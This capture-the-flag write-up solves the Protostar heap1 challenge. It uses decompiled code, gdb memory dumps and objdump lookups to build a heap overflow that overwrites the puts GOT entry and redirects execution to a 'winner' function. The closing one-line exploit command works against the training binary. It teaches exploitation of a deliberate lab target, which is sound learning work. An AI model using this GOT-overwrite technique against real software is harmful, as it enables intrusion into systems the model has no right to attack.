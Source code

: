 # exploit_exercises protostar heap 1

Let's take a look at the binary. Also this challenge is a bit different from the others, it's from the protostar wargame and the goal is to call the `winner` function (not pop a shell). Also this isn't the original binary, I recompiled it:

```
$	file heap1
heap1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=0840a5076b50649a07ba60e78144b2bf30297c92, not stripped
$	pwn checksec heap1
[*] '/Hackery/pod/modules/heap_overflow/protostarHeap1/heap1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
$	./heap1 
Segmentation fault (core dumped)
$	./heap1 15935728
Segmentation fault (core dumped)
$	./heap1 15935728 75395128
and that's a wrap folks!
```

So we are dealing with a `32` bit binary with no PIE or RELRO. It also expects two inputs passed as arguments to the program. When we take a look at the main function in Ghidra, we see this:

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(undefined4 argc,int argv)

{
  undefined4 *chunk0;
  void *ptr0;
  undefined4 *chunk1;
  void *ptr1;
  
  chunk0 = (undefined4 *)malloc(8);
  *chunk0 = 1;
  ptr0 = malloc(8);
  *(void **)(chunk0 + 1) = ptr0;
  chunk1 = (undefined4 *)malloc(8);
  *chunk1 = 2;
  ptr1 = malloc(8);
  *(void **)(chunk1 + 1) = ptr1;
  strcpy((char *)chunk0[1],*(char **)(argv + 4));
  strcpy((char *)chunk1[1],*(char **)(argv + 8));
  puts("and that\'s a wrap folks!");
  return 0;
}
```

So we can see that this program starts off by allocating two heap structures. The structure of those structures is this:

```
0x4:	integer (either 1, or 2)
0x8:	ptr to eight byte space allocated with malloc
```

The bug here is the two `strcpy` calls. They aren't checking if the space it is writing to is big enough to hold the data, so we have an overflow. Taking a look at how the data is laid out in the heap in gdb, we see this:

```
gef➤  disas main
Dump of assembler code for function main:
   0x080484e1 <+0>:	lea    ecx,[esp+0x4]
   0x080484e5 <+4>:	and    esp,0xfffffff0
   0x080484e8 <+7>:	push   DWORD PTR [ecx-0x4]
   0x080484eb <+10>:	push   ebp
   0x080484ec <+11>:	mov    ebp,esp
   0x080484ee <+13>:	push   esi
   0x080484ef <+14>:	push   ebx
   0x080484f0 <+15>:	push   ecx
   0x080484f1 <+16>:	sub    esp,0x1c
   0x080484f4 <+19>:	call   0x80483f0 <__x86.get_pc_thunk.bx>
   0x080484f9 <+24>:	add    ebx,0x1b07
   0x080484ff <+30>:	mov    esi,ecx
   0x08048501 <+32>:	sub    esp,0xc
   0x08048504 <+35>:	push   0x8
   0x08048506 <+37>:	call   0x8048360 <malloc@plt>
   0x0804850b <+42>:	add    esp,0x10
   0x0804850e <+45>:	mov    DWORD PTR [ebp-0x20],eax
   0x08048511 <+48>:	mov    eax,DWORD PTR [ebp-0x20]
   0x08048514 <+51>:	mov    DWORD PTR [eax],0x1
   0x0804851a <+57>:	sub    esp,0xc
   0x0804851d <+60>:	push   0x8
   0x0804851f <+62>:	call   0x8048360 <malloc@plt>
   0x08048524 <+67>:	add    esp,0x10
   0x08048527 <+70>:	mov    edx,eax
   0x08048529 <+72>:	mov    eax,DWORD PTR [ebp-0x20]
   0x0804852c <+75>:	mov    DWORD PTR [eax+0x4],edx
   0x0804852f <+78>:	sub    esp,0xc
   0x08048532 <+81>:	push   0x8
   0x08048534 <+83>:	call   0x8048360 <malloc@plt>
   0x08048539 <+88>:	add    esp,0x10
   0x0804853c <+91>:	mov    DWORD PTR [ebp-0x1c],eax
   0x0804853f <+94>:	mov    eax,DWORD PTR [ebp-0x1c]
   0x08048542 <+97>:	mov    DWORD PTR [eax],0x2
   0x08048548 <+103>:	sub    esp,0xc
   0x0804854b <+106>:	push   0x8
   0x0804854d <+108>:	call   0x8048360 <malloc@plt>
   0x08048552 <+113>:	add    esp,0x10
   0x08048555 <+116>:	mov    edx,eax
   0x08048557 <+118>:	mov    eax,DWORD PTR [ebp-0x1c]
   0x0804855a <+121>:	mov    DWORD PTR [eax+0x4],edx
   0x0804855d <+124>:	mov    eax,DWORD PTR [esi+0x4]
   0x08048560 <+127>:	add    eax,0x4
   0x08048563 <+130>:	mov    edx,DWORD PTR [eax]
   0x08048565 <+132>:	mov    eax,DWORD PTR [ebp-0x20]
   0x08048568 <+135>:	mov    eax,DWORD PTR [eax+0x4]
   0x0804856b <+138>:	sub    esp,0x8
   0x0804856e <+141>:	push   edx
   0x0804856f <+142>:	push   eax
   0x08048570 <+143>:	call   0x8048350 <strcpy@plt>
   0x08048575 <+148>:	add    esp,0x10
   0x08048578 <+151>:	mov    eax,DWORD PTR [esi+0x4]
   0x0804857b <+154>:	add    eax,0x8
   0x0804857e <+157>:	mov    edx,DWORD PTR [eax]
   0x08048580 <+159>:	mov    eax,DWORD PTR [ebp-0x1c]
   0x08048583 <+162>:	mov    eax,DWORD PTR [eax+0x4]
   0x08048586 <+165>:	sub    esp,0x8
   0x08048589 <+168>:	push   edx
   0x0804858a <+169>:	push   eax
   0x0804858b <+170>:	call   0x8048350 <strcpy@plt>
   0x08048590 <+175>:	add    esp,0x10
   0x08048593 <+178>:	sub    esp,0xc
   0x08048596 <+181>:	lea    eax,[ebx-0x19ab]
   0x0804859c <+187>:	push   eax
   0x0804859d <+188>:	call   0x8048370 <puts@plt>
   0x080485a2 <+193>:	add    esp,0x10
   0x080485a5 <+196>:	mov    eax,0x0
   0x080485aa <+201>:	lea    esp,[ebp-0xc]
   0x080485ad <+204>:	pop    ecx
   0x080485ae <+205>:	pop    ebx
   0x080485af <+206>:	pop    esi
   0x080485b0 <+207>:	pop    ebp
   0x080485b1 <+208>:	lea    esp,[ecx-0x4]
   0x080485b4 <+211>:	ret    
End of assembler dump.
gef➤  b *main+175
Breakpoint 1 at 0x8048590
gef➤  r 1593572 7539512
Starting program: /Hackery/pod/modules/heap_overflow/protostarHeap1/heap1 1593572 7539512
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0804b190  →  "7539512"
$ebx   : 0x0804a000  →  0x08049f14  →  0x00000001
$ecx   : 0xffffd2f5  →  "7539512"
$edx   : 0x0804b190  →  "7539512"
$esp   : 0xffffd010  →  0x0804b190  →  "7539512"
$ebp   : 0xffffd048  →  0x00000000
$esi   : 0xffffd060  →  0x00000003
$edi   : 0x0       
$eip   : 0x08048590  →  <main+175> add esp, 0x10
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd010│+0x0000: 0x0804b190  →  "7539512"	 ← $esp
0xffffd014│+0x0004: 0xffffd2f5  →  "7539512"
0xffffd018│+0x0008: 0x00000000
0xffffd01c│+0x000c: 0x080484f9  →  <main+24> add ebx, 0x1b07
0xffffd020│+0x0010: 0xf7faf3fc  →  0xf7fb0200  →  0x00000000
0xffffd024│+0x0014: 0x00000000
0xffffd028│+0x0018: 0x0804b160  →  0x00000001
0xffffd02c│+0x001c: 0x0804b180  →  0x00000002
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048587 <main+166>       in     al, dx
    0x8048588 <main+167>       or     BYTE PTR [edx+0x50], dl
    0x804858b <main+170>       call   0x8048350 <strcpy@plt>
 →  0x8048590 <main+175>       add    esp, 0x10
    0x8048593 <main+178>       sub    esp, 0xc
    0x8048596 <main+181>       lea    eax, [ebx-0x19ab]
    0x804859c <main+187>       push   eax
    0x804859d <main+188>       call   0x8048370 <puts@plt>
    0x80485a2 <main+193>       add    esp, 0x10
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "heap1", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048590 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x08048590 in main ()
gef➤  search-pattern 1593572
[+] Searching '1593572' in memory
[+] In '[heap]'(0x804b000-0x806d000), permission=rw-
  0x804b170 - 0x804b177  →   "1593572" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd2ed - 0xffffd2f4  →   "1593572" 
gef➤  search-pattern 0x0804b170
[+] Searching '0x0804b170' in memory
[+] In '[heap]'(0x804b000-0x806d000), permission=rw-
  0x804b164 - 0x804b174  →   "\x70\xb1\x04\x08[...]" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd000 - 0xffffd010  →   "\x70\xb1\x04\x08[...]" 
gef➤  x/20w 0x804b160
0x804b160:	0x00000001	0x0804b170	0x00000000	0x00000011
0x804b170:	0x33393531	0x00323735	0x00000000	0x00000011
0x804b180:	0x00000002	0x0804b190	0x00000000	0x00000011
0x804b190:	0x39333537	0x00323135	0x00000000	0x00021e69
0x804b1a0:	0x00000000	0x00000000	0x00000000	0x00000000
```

So we can see that our first input begins at `0x804b170`. We can also see that the second pointer that is written to is at `0x804b184`. This leaves us with a `0x804b184 - 0x804b170 = 20` byte difference. Here is the plan. With the first `strcpy` call we will overwrite the pointer at `0x0804b190` by inputting `20` bytes, plus a new pointer. Then with the second write, we will be able to write a value we want where we want to. Now is just the question of where to write it.

Since RELRO isn't enabled, we can write to the got table. This will make it so when it tries to call one function, it will actually call another. Looking at the disassembly we see that `puts` is called after the `strcpy` calls so that would probably be a good target. We can get it's got table entry (no PIE so we don't need an infoleak here) with objdump:

```
$	objdump -R heap1 | grep puts
0804a018 R_386_JUMP_SLOT   puts@GLIBC_2.0
```

Now instead of executing `puts`, we can just execute the `winner` function instead. We can also find it's address using objdump:

```
$	objdump -D heap1 | grep winner
080484b6 <winner>:
```

With that, we have everything we need for our exploit:

```
$	./heap1 `python -c 'print "0"*20 + "\x18\xa0\x04\x08" + " " + "\xb6\x84\x04\x08"'`
and we have a winner
```

Just like that, we got the flag!